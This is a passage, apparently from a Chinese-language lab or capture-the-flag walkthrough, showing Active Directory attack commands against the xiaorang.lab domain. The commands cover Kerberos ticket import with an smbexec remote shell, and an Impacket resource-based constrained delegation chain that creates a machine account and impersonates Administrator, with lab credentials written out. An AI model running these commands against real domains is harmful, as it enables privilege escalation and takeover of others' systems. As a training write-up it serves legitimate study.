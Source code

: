 导入，而后无密码登录即可

```bash
export KRB5CCNAME=administrator@cifs_FILESERVER.xiaorang.lab@XIAORANG.LAB.ccache
proxychains python3 smbexec.py -no-pass -k FILESERVER.xiaorang.lab
```

[![](assets/1706846898-f97298841d6d0355c665e2ab21a66651.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214152-7daef09e-c03e-1.png)

整体过程也可以借助`Impacket`套件实现

```bash
proxychains python3 addcomputer.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -dc-host xiaorang.lab -computer-name 'TEST2$' -computer-pass 'P@ssw0rd'

proxychains python3 rbcd.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -action write -delegate-to 'Fileserver$' -delegate-from 'TEST2$'

proxychains python3 getST.py xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/Fileserver.xiaorang.lab -impersonate Administrator -dc-ip 172.22.60.8
```
